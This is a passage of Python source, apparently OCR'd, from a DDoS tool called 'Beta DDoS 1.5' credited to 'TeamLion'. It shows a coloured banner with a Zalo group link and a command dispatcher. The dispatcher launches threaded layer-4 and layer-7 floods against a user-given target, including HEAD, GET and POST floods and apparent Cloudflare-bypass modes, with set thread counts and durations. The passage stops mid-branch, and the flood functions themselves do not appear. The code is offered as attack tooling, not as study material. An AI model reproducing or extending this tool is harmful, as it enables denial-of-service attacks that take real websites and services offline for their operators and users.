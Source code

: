     stdout.write("                   "+Fore.LIGHTGREEN_EX  +"|_____|_|\___/|_| |_|____/|____/ \___/____/   Beta DDoS 1.5                 \n")
    stdout.write("             "+Fore.LIGHTGREEN_EX            +"        ══╦═════════════════════════════════╦══\n")
    stdout.write("             "+Fore.LIGHTGREEN_EX+"╔═════════╩═════════════════════════════════╩═════════╗\n")
    stdout.write("             "+Fore.LIGHTGREEN_EX+"║ "+Fore.LIGHTWHITE_EX   +"       Sever Zalo : https://zalo.me/g/izxwkc593     "+Fore.LIGHTGREEN_EX  +"║\n")
    stdout.write("             "+Fore.LIGHTGREEN_EX+"║ "+Fore.LIGHTWHITE_EX   +"       Edit Tool : Nguyễn Nhật Quyền (TeamLion)    "+Fore.LIGHTGREEN_EX  +" ║\n")
    stdout.write("             "+Fore.LIGHTGREEN_EX+"║ "+Fore.LIGHTWHITE_EX   +"       Support Edit : Lê Minh Tiến (AdminLion)   "+Fore.LIGHTGREEN_EX  +"   ║\n")
    stdout.write("             "+Fore.LIGHTGREEN_EX+"║ "+Fore.LIGHTWHITE_EX   +"       Chọn Lệnh 'help' Để Tới Menu    "+Fore.LIGHTGREEN_EX +"             ║\n")

    stdout.write("             "+Fore.LIGHTGREEN_EX+"╚═════════════════════════════════════════════════════╝\n")
    stdout.write("\n")
##############################################################################################
def command():
    stdout.write(Fore.LIGHTGREEN_EX+"╔═══"+Fore.LIGHTGREEN_EX+"[""Team"+Fore.LIGHTGREEN_EX+"@"+Fore.LIGHTGREEN_EX+"LionVN"+Fore.CYAN+"]"+Fore.LIGHTGREEN_EX+"\n╚══\x1b[38;2;0;255;189m> "+Fore.WHITE)
    command = input()
    if command == "cls" or command == "clear":
        clear()
        title()
    elif command == "help" or command == "?":
        help()
    elif command == "credit":
        credit()        
    elif command == "layer7" or command == "LAYER7" or command == "l7" or command == "L7" or command == "Layer7":
        layer7()
    elif command == "layer4" or command == "LAYER4" or command == "l4" or command == "L4" or command == "Layer4":
        layer4()
    elif command == "tools" or command == "tool":
        tools()
    elif command == "exit":
        exit()
    elif command == "test":
        target, thread, t = get_info_l7()
        Launch(target, thread, t, "HEAD")
        time.sleep(10)
    elif command == "cfb" or command == "CFB":
        target, thread, t = get_info_l7()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        LaunchCFB(target, thread, t)
        timer.join()
    elif command == "pxcfb" or command == "PXCFB":
        target, thread, t = get_info_l7()
        threading.Thread(target=attackPXCFB, args=(target, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "get" or command == "GET":
        target, thread, t = get_info_l7()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        LaunchRAW(target, thread, t)
        timer.join()
    elif command == "post" or command == "POST":
        target, thread, t = get_info_l7()